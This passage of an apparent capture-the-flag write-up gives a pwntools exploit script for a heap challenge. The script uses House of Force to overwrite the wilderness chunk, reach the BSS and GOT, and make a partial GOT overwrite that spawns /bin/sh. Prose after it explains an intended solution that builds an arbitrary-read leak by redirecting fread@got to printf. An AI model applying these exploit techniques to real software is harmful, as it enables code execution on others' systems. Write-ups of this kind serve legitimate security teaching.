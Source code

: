 # Send the real passphrase this time
r.send("security")

# Collect print_menu
garbage = r.recv()

# Overwrite the wilderness chunk
r.sendline('2')
payload  = "\x00" * 12
payload += "\xff\xff\xff\xff"
r.sendline(payload)

# Allocate huge chunk to reach the BSS
BSS = 0x10fb0
r.sendline('3')
size = (0xffffffff - leak - 0x10) + BSS         # calc the addr to GOT
size = (0xffffffff ^ size) + 5                  # 2s compliment + 4
log.info("Size: " + "-" + str(size))
r.sendline('-' + str(size))                     # send negative

# Allocate small chunk on top of GOT with UpdateKey()
r.sendline('1')
payload = struct.pack("<I", 0x41414141)         # write on top of Passphrase@bss
payload += struct.pack("<I", 0x0010f80)         # write on top of secret@bss
payload += struct.pack("<I", 0x43434343)        # write on top of nameBuffer@bss
payload += struct.pack("<I", 0x10f72)           # write on top of key@bss

# Overwrite the GOT, partial 2 byte overwrite
r.send(payload)
r.sendline('1')
r.send("A" * 14 + struct.pack("<H", 0xe8d8)
r.sendline("/bin/sh\x00")
r.interactive()

{% endhighlight %}

## Intended solution

For the intended solution the only difference was to find the full address of system(). Since libc is not provided to us and system() is not in the GOT, we needed to either manually traverse the link_map of the server's libc or use a tool like pwntools/binjitsu that would do it for us given we have a function that leaks any requested address.

The question here is, how do we get multiple arbitrary read/write operations. First we use House of Force to reach the pointers placed in the bss. Next we allocate a new chunk so we can control them. We overwrite the secret's ptr with 0x10fb4 so we can keep control of all the pointers there via the _editSecret()_ function. The key's pointer we overwrite with address of fread@got.
This way we can craft a leak function from _updateKey()_, by replacing fread@got with printf@plt. So whenever _updateKey()_ is called _printf()_ is going to execute with the key@bss ptr as argument which we control via _editSecret()_.
